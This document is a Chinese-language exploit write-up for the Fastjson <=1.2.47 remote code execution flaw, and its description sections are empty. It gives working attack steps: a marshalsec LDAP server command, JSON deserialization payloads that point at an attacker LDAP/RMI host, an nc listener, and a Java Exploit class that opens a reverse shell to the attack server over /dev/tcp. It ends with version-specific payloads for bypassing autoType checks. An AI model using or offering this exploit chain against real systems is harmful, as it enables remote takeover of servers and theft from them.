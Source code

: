 Fastjson \<=1.2.47 远程代码执行漏洞
===================================

一、漏洞简介
------------

二、漏洞影响
------------

Fastjson \< 1.2.47

三、复现过程
------------

**https://github.com/ianxtianxt/fastjson-1.2.47-RCE-1**

-   执行：

```{=html}
<!-- -->
```
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IPvps/#Exploit

1.png

-   修改反弹ip和端口：

```{=html}
<!-- -->
```
    vim Exploit.java

-   编译生成class：//`需要使用jdk1.8，否则会报错`

```{=html}
<!-- -->
```
    javac Exploit.java

-   开启http服务：

```{=html}
<!-- -->
```
    python3 -m http.server 80 或者 python -m SimpleHTTPServer 80

-   payload:

```{=html}
<!-- -->
```
    {"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}

-   开启nc监听反弹：

```{=html}
<!-- -->
```
    nc -lvvp 8888

### 反弹shell poc补充

#### **java反弹shell，无法直接使用bash -i \>& /dev/tcp/攻击服务器ip/8888 0\>&1**

    import java.io.BufferedReader;
    import java.io.InputStream;
    import java.io.InputStreamReader;

    public class Exploit{
        public Exploit() throws Exception {
            Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/攻击服务器ip/888;cat <&5 | while read line; do $line 2>&5 >&5; done"});
            InputStream is = p.getInputStream();
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));

            String line;
            while((line = reader.readLine()) != null) {
                System.out.println(line);
            }

            p.waitFor();
            is.close();
            reader.close();
            p.destroy();
        }

        public static void main(String[] args) throws Exception {
        }
    }

### 补充

**https://github.com/ianxtianxt/Fastjson-1.2.47-rce**

    1.2.24
    {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

    未知版本(1.2.24-41之间)
    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

    1.2.41
    {"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

    1.2.42
    {"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

    1.2.43
    {"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

    1.2.45
    {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}

    1.2.47
    {"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
